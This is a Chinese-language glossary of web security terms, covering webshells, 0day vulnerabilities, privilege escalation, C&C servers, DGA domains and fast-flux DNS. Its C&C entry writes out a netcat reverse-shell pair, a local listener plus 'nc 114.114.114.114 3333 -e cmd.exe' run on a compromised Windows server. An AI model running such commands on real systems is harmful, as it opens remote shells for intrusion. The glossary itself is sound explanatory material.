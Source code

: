 Web 安全术语
================================

后门
--------------------------------
绕过安全控制而获取对程序或系统访问权的方法。后门的最主要目的就是方便以后再次秘密进入或者控制系统。

Webshell
--------------------------------
Webshell 就是以 asp、php、jsp 或者 cgi 等网页文件形式存在的一种命令执行环境，也可以将其称作为一种网页后门。

0day漏洞
--------------------------------
通常是指还没有补丁的漏洞。也就是说官方还没有发现或者是发现了还没有开发出安全补丁的漏洞。

Exploit
--------------------------------
简称 exp，漏洞利用。

提权
--------------------------------
提高自己在服务器中的权限，主要针对网站入侵过程中，当入侵某一网站时，通过各种漏洞提升 Webshell 权限以夺得该服务器权限。

跳板
--------------------------------
跳板，简单来说，就是在进行攻击或渗透时，不直接发起，而是控制一台中间主机来进行。这台中间主机就成为跳板。

拖库
--------------------------------
网站遭到入侵后，黑客窃取其数据库。

社会工程学
--------------------------------
一种通过对受害者心理弱点、本能反应、好奇心、信任、贪婪等心理陷阱进行诸如欺骗、伤害等危害手段取得自身利益的手法，已成迅速上升甚至滥用的趋势。

Apt 攻击
--------------------------------
高级持续性威胁。 利用先进的攻击手段对特定目标进行长期持续性网络攻击的攻击形式。

CC 
--------------------------------
CC = Challenge Collapsar，意为“挑战黑洞”，其前身名为Fatboy攻击，是利用不断对网站发送连接请求致使形成拒绝服务的目的。

C&C
--------------------------------
C&C服务器全称是 Command and Control Server，翻译过来就是命令和控制服务器.通常在做渗透测试的时候，在拿到一个 webshell的时候，需要对服务器进行提权操作，如果是一台 windows 的服务器，提权的时候通常是利用本地提权漏洞的 exp 进行溢出提权，有些 exp 可以直接在后面加参数，溢出成功之后执行参数中的命令。而有的 exp溢出成功之后是返回一个 system 权限的 cmd，这时就需要将低权限的 cmd shell 反弹回本地，这里用 nc 在本地执行：nc -vv -lp 3333.上述命令的意思是在本地监听一个 3333 端口等待连接，假设电脑 IP 是公网的，并且 IP 为 114.114.114.114，然后在目标服务器就可以执行：nc 114.114.114.114 3333 -e cmd.exe.
上面的命令就可以把远程服务器的服务器权限的 cmd shell 返回到本地，这时你就可以通过 nc 建立的这个 shell 进行通信，发送你要执行的命令，在远程服务器接收到命令之后执行并将结果返回，这时本机电脑就是一个简易的 C&C 服务器。

DGA
---------------------------------
DGA域名生成算法经常被用作恶意软件连接C2中控。在早期的僵尸网络中，控制者通常会把C&C服务器的域名或者IP地址硬编码到恶意程序中，僵尸主机通过这些信息定时访问C&C主机获取命令。但同时安全人员也能够通过逆向恶意程序，得到C&C服务器的域名或者IP，利用这些信息定位C&C主机，安全人员就可以隔断C&C主机从而破坏僵尸网络。恶意软件定期使用DGA算法生成为随机域名，有效绕过黑名单检测，尝试连接，寻找C2中控。如果一个生成的域名无法连接，便生成下一个DGA为随机域名进行连接尝试。IP被阻断C2换一个域名可以继续操作。大多数dga域名在互联网环境是访问不到的，为什么？因为没有注册，黑客可以在软件中会写多个dga域名，在确认使用攻击时注册若干个，然后中招的机器接入互联网就可以与dga域名进行通信了。

Fast-flux
---------------------------------
在正常的DNS服务器中，用户对同一个域名做DNS查询，在较长的一段时间内，无论查询多少次返回的结果基本上是不会改变的。Fast-flux技术是指不断改变域名和IP地址映射关系的一种技术，也就是说在短时间内查询使用Fast-flux技术部署的域名，会得到不同的结果.
 | 客户端两次访问www.example.com的过程如下：
 | 1)为了得到网站www.example.com的IP地址，客户端发起DNS查询。
 | 2)随后DNS服务器返回了一个IP地址1.2.3.4，同时TTL为一个很小的数值。
 | 3)客户端访问IP为1.2.3.4的服务器获取内容。
 | 4)IP为1.2.3.4的服务器响应请求，返回相应内容。
 | 5)客户端再次访问www.example.com，由于TTL过小，本地缓存的DNS记录失效，客户端需要再次向DNS服务器获取新的IP地址。
 | 6)此次DNS服务器返回了IP 4.3.2.1，这次的TTL仍然很小。
 | 7)客户端访问IP为4.3.2.1的服务器获取内容。
 | 8)IP为4.3.2.1的服务器响应请求，返回相应内容。